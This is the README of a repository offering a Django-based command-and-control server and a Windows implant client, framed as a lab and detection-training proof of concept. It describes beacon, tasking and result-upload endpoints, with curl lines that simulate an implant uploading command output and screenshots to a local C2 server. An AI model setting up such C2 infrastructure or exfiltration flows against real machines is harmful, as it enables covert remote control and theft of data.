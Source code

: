 # django-c2-poc

**Educational / Lab-only C2 proof-of-concept.**  
This repository contains a minimal Django-based Command-and-Control (C2) server and a complementary native Windows PoC client (C) used for lab testing and detection exercises.

> ⚠️ **IMPORTANT — Safety & Ethics**  
> This project is for **educational and defensive** use only. Do **not** run this code against systems you do not own or have explicit written permission to test. The native PoC (`poc/`) is dual-use and can be abused — treat it responsibly. See the section **“Native PoC (sensitivity & access)”** below.

---

## Repo layout

.
├─ c2/ # Django application
│ ├─ admin.py
│ ├─ apps.py
│ ├─ init.py
│ ├─ migrations/
│ ├─ models.py
│ ├─ tests.py
│ ├─ urls.py
│ └─ views.py
└─ poc/ # Native PoC (Windows C)
├─ main.c
└─ capture.c


---

## What this repo demonstrates

- A tiny Django C2 server that:
  - registers implants via `GET /c2/beacon/?id=<id>`
  - allows operator tasking via Django Admin (`Task` objects)
  - receives results via `POST /c2/upload/` (base64 text or multipart screenshot)
- A complementary native Windows PoC (in `poc/`) that demonstrates the client side flow in a lab: beacon, parse simple plaintext commands, run commands, capture screenshots, upload results.

This is intentionally minimal - the goal is to illustrate the C2 lifecycle and defensive detection signals, not to produce a production tool.

---

## Quick start — run the Django server locally (lab only)

1. Create a virtualenv and install dependencies (Python 3.10+ recommended):

```bash
python -m venv .venv
source .venv/bin/activate    # macOS / Linux
# .venv\Scripts\activate     # Windows PowerShell

pip install Django
```

2. Make sure your c2/ app is in a Django project or create a minimal project and include it. Example quick-start project:
```bash
django-admin startproject dc2proj
cd dc2proj
# Move the `c2/` folder into the project root, then:
# add "c2" to INSTALLED_APPS in dc2proj/settings.py
python manage.py migrate
python manage.py createsuperuser   # create admin user for operator UI
python manage.py runserver 127.0.0.1:8000
```

3. Open Django admin at: http://127.0.0.1:8000/admin/

---
## Endpoints & behavior (summary)

- GET /c2/beacon/?id=<implant_id>
    - Implant checks in. Server creates/updates Implant and returns the next pending Task.command (plaintext) or "none".
- POST /c2/upload/
    - Implant posts results either as:
        - form field result (base64 text)
        - file field screenshot (multipart file)
    - Server marks the task completed and saves results.

---
### Quick test with curl

Simulate beacon:
```
curl "http://127.0.0.1:8000/c2/beacon/?id=implant001"
# returns plaintext command or "none"
```
Simulate upload (text result):
```
RESULT=$(echo -n "hello implant" | base64)
curl -X POST -d "id=implant001" -d "result=${RESULT}" http://127.0.0.1:8000/c2/upload/
```
Simulate upload (file):
```
curl -X POST -F "id=implant001" -F "screenshot=@/path/to/test.bmp" http://127.0.0.1:8000/c2/upload/
```

---
## Limitations
- Plain HTTP and plaintext commands - no encryption / signing (lab-only).
- Very simple queue: server returns only the first incomplete task for an implant.
- No rate-limiting, no per-implant tokens, no quotas for uploads.
- Minimal validation and error handling.
- Django admin is an operator convenience - not a production operator console for scale.



